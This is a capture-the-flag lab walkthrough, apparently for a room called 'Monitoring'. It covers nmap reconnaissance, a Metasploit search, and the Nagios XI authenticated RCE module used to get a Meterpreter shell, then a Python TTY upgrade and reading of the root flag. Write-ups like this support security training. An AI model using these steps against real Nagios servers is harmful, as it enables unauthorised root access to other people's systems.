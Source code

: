 *Monitoring*

**RECON**

---
**Ip Search** 
Investigating the IP shows Nagios XI  
![image1](https://user-images.githubusercontent.com/66635295/158923291-f9f3c79d-29cd-4356-abac-a06c8a23c1c8.png)
**Login Page** 
![image4](https://user-images.githubusercontent.com/66635295/158923386-5a962c6b-12a7-4478-8ac3-7a4a7dbbfb76.png)



**Nmap Scan**  
<pre>nmap -sC -sV -A 192.168.54.136 </pre>  
-safe scripts -service version -OS /version detection  
![image3](https://user-images.githubusercontent.com/66635295/158923500-63ccf817-750b-4cc0-b922-5fec2ac9aed3.png)

**Exploit Search**
<pre>msfconsole </pre>   
<pre>search nagios </pre>   
![image7](https://user-images.githubusercontent.com/66635295/158925208-7aaf44af-6018-45f6-9136-02605a2546df.png)

**Service Version**  
Provided Exploits Did not work however reavel the service version   
![image6](https://user-images.githubusercontent.com/66635295/158925523-9ec073a8-fad8-47e2-a719-fd456de16bdd.png)  
**Google-Fu**
<pre>Nagios XI Remote Code Execution</pre> 
Exploit allows for root access prior to 5.6.6  
![image11](https://user-images.githubusercontent.com/66635295/158925803-ec6d2456-8095-4b7c-9e4b-b1cbced68f63.png)

**ENUMURATION**
---
**Exploit**
<pre>use exploit /linux/http/nagios_xi_autheticated_rce</pre>
Reveales it had been moved  
![image8](https://user-images.githubusercontent.com/66635295/158925989-31db1f9c-15ac-4db7-91c5-ec38690de593.png)

**Set Options and run**
Provides Meterpreter Shell  
![image5](https://user-images.githubusercontent.com/66635295/158926369-64c23ac5-0917-40e2-949a-1d92f7646f11.png)

**Privilege/Root Escalation**
---
**Switch to TTY Shell**
<pre>shell</pre>  
<pre>python -c ‘import pty;pty.spawn(“/bin/bash”)’</pre>  
![image10](https://user-images.githubusercontent.com/66635295/158926563-d75b3cd4-d4fe-431b-98f2-dc7574b39e2e.png)  
**Root Flag**  
<pre>cd /root</pre>  
![image2](https://user-images.githubusercontent.com/66635295/158926788-e02ea43c-383f-4516-8506-dfced0d5e020.png)

